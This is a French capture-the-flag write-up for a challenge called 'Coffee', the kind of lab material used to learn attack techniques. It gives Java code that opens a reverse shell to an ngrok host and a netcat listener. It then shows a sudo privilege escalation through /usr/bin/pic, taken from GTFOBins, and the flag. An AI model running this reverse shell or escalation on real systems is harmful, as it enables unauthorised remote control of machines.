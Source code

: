 # Solve - Coffee

## Remote Code Execution
Reverse shell en java via ngrok
```bash
# Dans un terminal
nc -lvnp 1234
# Dans un autre terminal
ngrok tcp 1234
```

On execute ce code dans l'appli
```java
// String command = "sh -i >& /dev/tcp/ATTAQUANT.com/PORT 0>&1";
// Adaptez la ligne du dessus à vos besoin, la mienne ressemble à ça avec les valeurs donnees par ngrok
String command = "sh -i >& /dev/tcp/4.tcp.eu.ngrok.io/13328 0>&1";  

try {
ProcessBuilder processBuilder = new ProcessBuilder("/bin/bash", "-c", command);
Process process = processBuilder.start();

java.io.InputStream is = process.getInputStream();
java.util.Scanner scanner = new java.util.Scanner(is).useDelimiter("\\A");
String result = scanner.hasNext() ? scanner.next() : "";

System.out.println(result);

process.waitFor();
} catch (IOException | InterruptedException e) {
e.printStackTrace();
}
```

## Privilege escalation

En tapant `sudo -l` on remarque qu'on peut executer la commande `/usr/bin/pic` en tant que l'utilisateur merciol. Notre objectif c'est de devenir merciol "notre objectif à tous dites pas le contraire".  
En se rendant sur https://gtfobins.github.io/gtfobins/ on voit qu'on peut s'en servir pour escalader les privilèges.
```bash
sudo -u merciol /usr/bin/pic -U
.PS
sh X sh X
```
```bash
whoami
merciol
```
On est maintenant merciol, 
```bash
cat /home/merciol/flag.txt
```

### Flag IUT{N4N_M415_J4V4_C357_C00L_3N_VR41}
